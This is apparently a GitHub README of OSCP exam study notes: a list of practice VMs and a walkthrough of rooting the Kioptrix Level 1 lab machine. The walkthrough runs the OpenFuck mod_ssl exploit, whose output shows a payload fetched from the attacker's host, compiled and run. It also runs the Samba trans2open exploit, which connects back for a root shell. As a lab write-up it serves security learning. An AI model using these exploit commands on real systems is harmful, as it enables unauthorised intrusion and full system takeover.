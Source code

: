 # Oscp study

Notes of my Offensive Security Certified Professional (OSCP) study plan. :-)

## OSCP-like VMs:
- Beginner friendly:
	- Kioptrix: Level 1 (#1) **[done!]**
	- Kioptrix: Level 1.1 (#2) 
	- Kioptrix: Level 1.2 (#3) 
	- Kioptrix: Level 1.3 (#4) 
	- FristiLeaks: 1.3 
	- Stapler: 1
	- PwnLab: init
- Intermediate:
	- Kioptrix: 2014
	- Brainpan: 1 (Part 1 of BO is relevant to OSCP. egghunting is out of scope though)
	- Mr-Robot: 1  
	- HackLAB: Vulnix
 	- Not so sure (Didn't solve them yet):
	- VulnOS: 2
	- SickOs: 1.2
	- /dev/random: scream 
	- pWnOS: 2.0
	- SkyTower: 1 
	- IMF
- Windows 
	- Metasploitable 3
	- /dev/random: Sleepy (Uses VulnInjector, need to provide you own ISO and key.)
	- Bobby: 1 (Uses VulnInjector, need to provide you own ISO and key.)

(credits for **@abatchy**)

## Links:

https://www.securitysift.com/offsec-pwb-oscp/
http://hackingandsecurity.blogspot.com.br/2016/04/oscp-related-notes.html

## Kioptrix: Level 1

Basic enumeration:

```bash
ferreirasc@roarrr:/$ nmap -sV -sC -sS -p- 192.168.3.96
Starting Nmap 7.40 ( https://nmap.org ) at 2017-04-23 10:12 -03
Nmap scan report for 192.168.3.96
Host is up (0.058s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1           1024/tcp  status
|_  100024  1           1024/udp  status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/http    Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_ssl-date: 2017-04-23T01:00:04+00:00; -12h12m39s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_64_WITH_MD5
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: mean: -12h12m39s, deviation: 0s, median: -12h12m39s
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.80 seconds
```

#### Exploit 1: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Exploit

- Exploit: [exploit-db link](https://www.exploit-db.com/exploits/764/)
- Updated: xpl/openfuck.c (thx for [@paulsec](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/))

```bash
ferreirasc@roarrr:/$ gcc openfuck.c -L/usr/local/opt/openssl/lib -I/usr/local/opt/openssl/include -lcrypto -o openfuck
ferreirasc@roarrr:/$ ./openfuck 0x6b 192.168.3.96 -c 20
*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 20 of 20
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
 p ptrace-kmod.c; rm ptrace-kmod.c; ./p; 192.168.3.60:8081/ptrace-kmod.c; gcc -o
--21:29:54--  http://192.168.3.60:8081/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to 192.168.3.60:8081...
Connection to 192.168.3.60:8081 refused.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
ls
p
payload
payload.py
session_mm.sem
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash -i
[root@kioptrix tmp]#
```
#### Exploit 2: Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow

- Exploit: [exploit-db link](https://www.exploit-db.com/exploits/22470/)
- xpl/trans2open.c

SMB enumeration:

```bash
root@kali:~# enum4linux -a 192.168.3.96
<............ omitted information .........>
 ======================================
|    OS information on 192.168.3.96    |
 ======================================
[+] Got OS info for 192.168.3.96 from smbclient: Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]
[+] Got OS info for 192.168.3.96 from srvinfo:
	KIOPTRIX       Wk Sv PrQ Unx NT SNT Samba Server
	platform_id     :	500
	os version      :	4.5
	server type     :	0x9a03
<............ omitted information .........>
```

Server was running Samba 2.2.1a, vulnerable to trans2open rce exploit. So...

```bash
ferreirasc@roarrr:~$ searchsploit samba 2.2.
----------------------------------------------------------------------------------------------------------- --------------------------------------------------------------------
 Exploit Title                                                                                             |  Path
                                                                                                           | (/usr/local/Cellar/exploitdb/2016-12-24/share/exploitdb/platforms)
----------------------------------------------------------------------------------------------------------- --------------------------------------------------------------------
(Linux Kernel 2.6) Samba 2.2.8 (Debian / Mandrake) - Share Privilege Escalation                            | /linux/local/23674.txt
Samba 2.2.x - Buffer Overflow                                                                              | /linux/remote/7.pl
Samba 2.2.8 - Remote Code Execution                                                                        | /linux/remote/10.c
Samba 2.2.8 - (Brute Force Method) Remote Command Execution                                                | /linux/remote/55.c
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                               | /osx/remote/9924.rb
Samba 2.2.x - nttrans Overflow (Metasploit)                                                                | /linux/remote/9936.rb
Samba 2.2.2 < 2.2.6 - nttrans Buffer Overflow (Metasploit)                                                 | /linux/remote/16321.rb
Samba 2.2.8 (Solaris SPARC) - 'trans2open' Overflow (Metasploit)                                           | /solaris_sparc/remote/16330.rb
Samba 2.2.8 (Linux x86) - 'trans2open' Overflow (Metasploit)                                               | /linux/remote/16861.rb
Samba 2.2.8 (OSX/PPC) - 'trans2open' Overflow (Metasploit)                                                 | /osx_ppc/remote/16876.rb
Samba 2.2.8 (*BSD x86) - 'trans2open' Overflow Exploit (Metasploit)                                        | /linux/remote/16880.rb
Samba SMB 2.2.x - CIFS/9000 Server A.01.x Packet Assembling Buffer Overflow                                | /unix/remote/22356.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (1)                                                 | /unix/remote/22468.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (2)                                                 | /unix/remote/22469.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (3)                                                 | /unix/remote/22470.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (4)                                                 | /unix/remote/22471.txt
----------------------------------------------------------------------------------------------------------- --------------------------------------------------------------------
ferreirasc@roarrr:~$ gcc /usr/local/Cellar/exploitdb/2016-12-24/share/exploitdb/platforms/unix/remote/22470.c -o transopen
ferreirasc@roarrr:~$ ./transopen 0 192.168.3.96 192.168.3.60
[+] Listen on port: 45295
[+] Connecting back to: [192.168.3.60:45295]
[+] Target: Linux
[+] Connected to [192.168.3.96:139]
[+] Please wait in seconds...!
[+] Yeah, I have a root ....!
------------------------------
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
```